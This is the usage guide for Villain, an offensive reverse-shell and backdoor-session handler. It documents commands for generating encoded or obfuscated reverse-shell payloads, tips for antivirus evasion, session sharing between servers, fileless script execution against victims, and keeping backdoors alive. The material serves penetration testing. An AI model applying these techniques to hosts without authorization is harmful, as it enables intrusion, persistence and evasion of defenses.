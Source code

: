 # Usage Guide
:warning: Villain was explicitly developed and tested on **kali linux**.
:warning: This guide is a work in progress currently describing key features. Check out Villain's introduction on youtube for more info.

There’s no up-to-date presentation of Villain with its latest features, but these videos give a good overview of its functionality:
- [2022-11-30] [John Hammond](https://github.com/JohnHammond) showcased the tool in this incredible video -> [youtube.com/watch?v=pTUggbSCqA0](https://www.youtube.com/watch?v=pTUggbSCqA0)
- [2023-03-30] Latest release demo, made by me -> [youtube.com/watch?v=NqZEmBsLCvQ](https://www.youtube.com/watch?v=HR1KM8wrSV8)

**Disclaimer**: Using this tool against hosts that you do not have explicit permission to test is illegal. You are responsible for any trouble you may cause by using this tool.

## Table of contents
1. [News](#News)
2. [Generate Reverse Shell Commands](#Generate-Reverse-Shell-Commands)
3. [Connect With Sibling Server](#Connect-With-Sibling-Server)
4. [Shell](#shell)
5. [Upload Command](#upload)
6. [Conptyshell](#Conptyshell)
7. [Exec](#Exec)
8. [Flee](#Flee)
9. [Purge](#Purge)
10. [Chat with Sibling Servers](#Chat-with-Sibling-Servers)
11. [Session Defender](#Session-Defender)


## Generate Reverse Shell Commands
Use the `generate` prompt command to generate payloads for Windows / Linux machines.
In the latest Villain release, this function was redesigned to use payload templates (files). In `Core/payload_templates/<OS>/<HANDLER>/` you can find these templates, edit them, make your own, etc. Ultimately, you should replace the predefined Windows reverse shell commands with obfuscated versions. That way you can create a personalized instance of Villain and deal with AV evasion in a more productive and efficient way. Here's how 📽️ -> [youtube.com/watch?v=grSBdZdUya0](https://www.youtube.com/watch?v=grSBdZdUya0)

Main logic:
```
generate payload=<OS_TYPE/HANDLER/PAYLOAD_TEMPLATE> lhost=<IP or INTERFACE> [ obfuscate encode ]
```

Handlers:
- reverse_tcp
- hoaxshell

The "payload" argument supports tab-autocomplete, allowing for quick selection of valid OS types, handlers, and templates.

Usage examples:
```
generate payload=windows/reverse_tcp/powershell lhost=eth0 encode
generate payload=linux/hoaxshell/sh_curl lhost=eth0 obfuscate
```

- The ENCODE and OBFUSCATE keywords are enabled for certain templates and can be used during payload generation.
- For info on a particular template, use "generate" with PAYLOAD being the only provided argument.
- To catch HoaxShell https-based reverse shells you need to start Villain with SSL.
- Ultimately, one should edit the templates and add obfuscated versions of the commands for AV
  evasion.

⚡Reverse TCP based shells are more stable and reliable than HoaxShell.
⚠️HoaxShell payloads are not reusable (will work only once). I will probably change that in the future.

Use the prompt commands `backdoors` and `sessions` to list info about your active shell sessions.

## Connect With Sibling Server
Use the `connect` prompt command to connect and share your shell sessions with another machine running Villain.
```
connect <IP> <TEAM SERVER PORT>
```
By default, the Core server port is `65001` (you can change that with `-p` when starting Villain).

## The shell Command
Use the `shell` prompt command to start an interactive pseudo-shell for a shell session. The effectiveness of the pseudo shell is going to vary depending on the quality and stability of the shell session. Again, you should prefer TCP socket based shells as they will always be more stable than HoaxShell.
```
shell <SESSION ID or ALIAS>
```
Press Ctrl + C or type `exit` to return to the main Villain prompt.

## Upload
Use the `upload` pseudo shell prompt command to transfer a file from your system into an active session. The file will be http requested automatically from the Http File Smuggler (running by default on port 8888). The feature works regardless if the session is owned by you or a sibling server.

From an active pseudo shell prompt:
```
upload <LOCAL_FILE_PATH> <REMOTE_FILE_PATH>
```

## Conptyshell
Use the `conptyshell` prompt command to automatically slap `Invoke-ConPtyShell.ps1` against a shell session. A new terminal window with netcat listening will pop up (you need to have gnome-terminal installed) and the script will be executed on the target as a new process, meaning you get a fully interactive shell AND you get to keep your backdoor. Currently works only for powershell.exe backdoors.
Because I love Invoke-ConPtyShell.

Usage:
```
conptyshell <IP or INTERFACE> <PORT> <SESSION ID or ALIAS>
```

## Inject
Use the `inject` pseudo shell prompt command to fileless exec a local script file over http against an active session. Files are executed by being http requested from the Http File Smuggler. The script you execute should much the shell session type (e.g., a PowerShell script script should be executed against a powershell.exe session, etc).

Usage:
```
inject </path/to/local/file>
```

## Flee
Use the `flee` prompt command to exit Villain without terminating any active sessions. If you start Villain again later and there are still victim machines sending HoaxShell beacons, the sessions will be re-established automatically.

## Purge
Villain automatically stores information regarding generated implants and loads them in memory every time it starts. This way, HoaxShell generated implants become reusable and it is possible to re-establish older sessions, assuming the payload is still running on the victim(s). Use the `purge` prompt command to delete all session related metadata. It does not affect any active sessions you may have.

## Chat with Sibling Servers
Commands starting with "#" are interpreted as messages and will be broadcasted to all connected Sibling Servers.

## Session Defender
Villain has a function that inspects user issued shell commands for input that may cause a backdoor shell session to hang (e.g., unclosed single/double quotes or backticks, commands that may start a new interactive session within the current shell and more). Use the `cmdinspector` command to turn that feature on/off.

Usage:
```
cmdinspector <ON/OFF>
```

